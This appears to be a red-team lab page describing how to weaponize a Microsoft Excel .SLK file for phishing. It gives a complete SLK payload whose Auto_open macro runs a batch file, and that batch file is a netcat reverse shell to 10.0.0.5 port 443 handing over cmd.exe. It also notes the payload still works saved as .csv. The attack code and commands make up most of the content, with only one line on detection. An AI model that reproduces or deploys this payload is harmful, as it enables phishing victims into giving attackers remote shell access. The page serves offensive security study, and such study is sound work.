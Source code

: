# Phishing: .SLK Excel

This lab is based on findings by [@StanHacked](https://twitter.com/StanHacked)

## Weaponization

Create an new text file, put the the below code and save it as .slk file:

{% code-tabs %}
{% code-tabs-item title="demo.slk" %}
```text
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/slk-text.png)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```text
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

Once the macro warning is dismissed, the reverse shell pops as expected:

![](../../.gitbook/assets/slk-shell.gif)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

## Bonus

Note that the payload file could be saved as a .csv - note the additional warning though:

![](../../.gitbook/assets/slk-csv.png)

[http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)

{% embed data="{\"url\":\"https://twitter.com/StanHacked/status/1049047727403937795\",\"type\":\"rich\",\"title\":\"Stan Hegt on Twitter\",\"description\":\"Pop calc.exe via Excel file of less than 100 bytes in size. Circumventing protected view! Put the following lines in a .slk file and accept the Excel macro warning. More magic in the @derbycon presentation of @ptrpieter and myself. Recording via @irongeek\_adc will be online soon! pic.twitter.com/ibsmqrj5S9— Stan Hegt \(@StanHacked\) October 7, 2018\\n\\n\",\"icon\":{\"type\":\"icon\",\"url\":\"https://abs.twimg.com/icons/apple-touch-icon-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pbs.twimg.com/media/Do717YQWwAAeXAQ.jpg:large\",\"width\":1536,\"height\":802,\"aspectRatio\":0.5221354166666666},\"embed\":{\"type\":\"app\",\"html\":\"<blockquote class=\\\"twitter-tweet\\\" data-dnt=\\\"true\\\" align=\\\"center\\\"><p lang=\\\"en\\\" dir=\\\"ltr\\\">Pop calc.exe via Excel file of less than 100 bytes in size. Circumventing protected view! Put the following lines in a .slk file and accept the Excel macro warning. More magic in the <a href=\\\"https://twitter.com/DerbyCon?ref\_src=twsrc%5Etfw\\\">@derbycon</a> presentation of <a href=\\\"https://twitter.com/ptrpieter?ref\_src=twsrc%5Etfw\\\">@ptrpieter</a> and myself. Recording via <a href=\\\"https://twitter.com/irongeek\_adc?ref\_src=twsrc%5Etfw\\\">@irongeek\_adc</a> will be online soon! <a href=\\\"https://t.co/ibsmqrj5S9\\\">pic.twitter.com/ibsmqrj5S9</a></p>&mdash; Stan Hegt \(@StanHacked\) <a href=\\\"https://twitter.com/StanHacked/status/1049047727403937795?ref\_src=twsrc%5Etfw\\\">October 7, 2018</a></blockquote>\\n<script async src=\\\"https://platform.twitter.com/widgets.js\\\" charset=\\\"utf-8\\\"></script>\\n\",\"maxWidth\":550,\"aspectRatio\":null}}" %}



